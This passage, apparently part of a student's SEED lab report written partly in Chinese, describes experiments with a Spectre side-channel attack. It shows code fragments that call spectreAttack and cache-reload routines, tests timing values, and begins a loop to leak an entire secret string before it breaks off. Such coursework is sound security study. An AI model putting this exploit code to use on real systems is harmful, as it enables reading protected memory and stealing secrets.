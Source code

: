 
#### b)

> Line ➀ seems useless, but from our experience on SEED Ubuntu 20.04, without this line, the attack will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. We have not fifigured out the exact reason yet, so if you can, your instructor will likely give you bonus points. Please run the program with and without this line, and describe your observations.

```c
  for (i = 0; i < 1000; i++)
  {
    // printf("*****\n"); // This seemly "useless" line is necessary for the attack to succeed
    spectreAttack(index_beyond);
    usleep(10);
    reloadSideChannelImproved();
  }
```

在注释了`printf`后，在`Ubuntu 16.04 VM`仍可以跑出结果：

![image-20220410144418615](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312616.png)

而在`Ubuntu 20.04`上失败了：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312365.png" alt="image-20220410145237707" style="zoom:80%;" />

#### c）

> Line ➁ causes the program to sleep for 10 microseconds. How long the program sleeps does affect the success rate of the attack. Please try several other values, and describe your observations.

`usleep(10)`把进程挂起10微秒，测试结果hit次数基本上没有超过10次。

![image-20220410173843066](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312433.png)

`usleep(100);`把进程挂起100微秒，测试结果hit次数明显要比`usleep(10)`多很多。

![image-20220410173339710](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312245.png)

`usleep(1);`把进程挂起1微秒，基本上hit次数也是在10次以下。

![image-20220410174005751](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312310.png)

（虽然不明白为什么，猜测是这样的：usleep会挂起进程，执行进程的切换，可能进程切换比较慢，在切换前CPU已经乱序执行了一部分，访问了secret，然后再执行进程切换，使得判断跳转是否成立的步骤延后了，提高了成功率）

### Task 6: Steal the Entire Secret String

在main函数中写循环遍历sceret，假设攻击者不知道secret的长度，设置secret长度的上限`#define MAX_SECRET_LENGTH 30`：

```C
int main()
{
  int i;
  uint8_t s;
  int secret_length = 0; // 因为攻击者应该是不知道secret的长度的
  size_t index_beyond;
  int max;

  while (secret_length < MAX_SECRET_LENGTH)
  {
    index_beyond = (size_t)(secret + secret_length - (char *)buffer);
    flushSideChannel();
    for (i = 0; i < 256; i++)
      scores[i] = 0;

    for (i = 0; i < 1000; i++)
    {
```